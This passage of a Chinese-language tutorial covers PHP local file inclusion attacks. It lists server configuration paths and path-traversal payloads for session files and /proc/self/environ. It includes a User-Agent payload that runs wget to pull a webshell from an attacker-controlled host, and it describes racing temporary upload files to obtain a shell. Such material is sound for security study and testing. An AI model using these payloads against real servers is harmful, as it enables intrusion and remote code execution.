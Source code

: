 /etc/httpd/conf/httpd.conf

或者

index.php?page=/etc/init.d/httpd

IIS6.0+win2003 配置文件

C:/Windows/system32/inetsrv/metabase.xml

IIS7.0+WIN 配置文件

C:/Windows/System32/inetsrv/config/application/Host.config



包含 session

利用条件：session 文件路径已知，且其中内容部分可控。

PHP 默认生成的 Session 文件往往存放在 /tmp 目录下

/tmp/sess_SESSIONID

?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7

session 文件一般在 /tmp 目录下，格式为 sess_[your phpsessid value]，有时候也有可能在 /var/lib/php5 之类的，在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制 session 的值，也许你能够获得一个 shell



包含 /proc/self/environ 文件

利用条件：

1、php 以 cgi 方式运行，这样 environ 才会保持 UA 头。

2、environ 文件存储位置已知，且 environ 文件可读。

姿势：

proc/self/environ 中会保存 user-agent 头。如果在 user-agent 中插入 php 代码，则 php 代码会被写入到 environ 中。之后再包含它，即可。

?file=../../../../../../../proc/self/environ

选择 User-Agent 写代码如下：

<?system('wget http://www.yourweb.com/oneword.txt -O shell.php');?>

然后提交请求。



包含临时文件



php 中上传文件，会创建临时文件。在 linux 下使用 /tmp 目录，而在 windows 下使用 c:\winsdows\temp 目录。在临时文件被删除之前，利用竞争即可包含该临时文件。

由于包含需要知道包含的文件名。一种方法是进行暴力猜解，linux 下使用的随机函数有缺陷，而 window 下只有 65535 中不同的文件名，所以这个方法是可行的。另一种方法 phpinfo 来获取临时文件的路径以及名称,然后临时文件在极短时间被删除的时候,需要竞争时间包含临时文件拿到 webshell。



有防御的本地文件包含
审计中可见这样的包含模版文件：

 